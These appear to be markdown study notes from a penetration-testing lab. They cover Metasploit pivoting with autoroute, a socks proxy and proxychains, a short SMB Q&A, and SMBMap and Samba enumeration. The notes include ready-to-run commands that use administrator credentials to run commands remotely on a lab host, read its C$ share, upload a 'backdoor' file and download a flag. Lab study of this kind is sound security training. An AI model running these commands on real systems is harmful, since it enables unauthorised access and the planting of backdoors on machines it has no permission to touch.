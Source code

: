 - __pivoting__
  - __set the autoroute for the target in metasploit__
    - __`run autoroute -s 10.0.1.0/20`__
  - __check the porxchain in the kali__
    - __`cat /etc/proxychains.conf` or `cat /etc/proxychains4a.conf`__
  - __search in msfconsole__
    - __`search socks4`__
    - __`use auxiliary/server/socks_proxy`__
      - __`set VERSION 4a`__
      - __`set SRVPORT 9050`__
      - __`exploit`__
  - __now open kali you can do the nmap__
    - __`proxychains nmap -sV -T4 -O -Pn -p 445 <ip>`__
  - __use the net view in the the reverse shell__
    - __`migrate -N explorer.exe`__
    - __`shell`__
     - __`net view <ip_of_the_subnet>`__
     - __`net use D: \\<subip>\Documents`__

 
# Q&A
- __1.What is the primary purpose of SMB in Windows networks?__
  - __Ans. `To facilitate network file sharing and resource access`__

- __2.Why do modern Windows networks primarily use SMB instead of NetBIOS?__
  - __Ans.`SMB offers better performance and security`__

- __3.Why is SMBv1 considered insecure?__
  - __Ans. `It allows anonymous logons and has several security vulnerabilities`__
- __```net use z: \\10.5.19.82\c$ smbserver_771 /user:administrator```__
- ##### SMBMap
- `smbmap -u guest -p "" -d . -H 10.0.1.22`
- `smbmap -u administrator -p smbserver_771 -d . -H 10.0.1.22`
- `smbmap -u administrator -p smbserver_771 -d . -H 10.0.1.22 -x "ipconfig"`
- `smbmap -u administrator -p smbserver_771 -d . -H 10.0.1.22 -L`
- `smbmap -u administrator -p smbserver_771 -d . -H 10.0.1.22 -r 'C$'` ---> reads the content of the 'C' drive
- `smbmap -u administrator -p smbserver_771 -d . -H 10.0.1.22 --upload '/root/backdoor' 'C$\backdoor'`
  - `--upload '/root/backdoor'`---> upload the backdoor file 
  - `'C$\backdoor'`  ---> giving the path to where to upload the backdoor file in target system 
- `smbmap -u administrator -p smbserver_771 -d . -H 10.0.1.22 --download "C$\flag.txt"`


## Samba
###### TCP Scan
`nmap -sV 10.0.1.22` or `nmap -Pn -A -p- -sC -T4 10.0.1.22`
###### UDP Scan
nmap 10.0.1.22 -sU --top-port 25 --open -sV 
#### Metasploit
* To find the smb version we can use metasploit also
- `msfconsole`
- `user auxiliary/scanner/smb/smb_version`
- `show options`
- `set rhosts <target_ip>`
- `run` or `exploit`
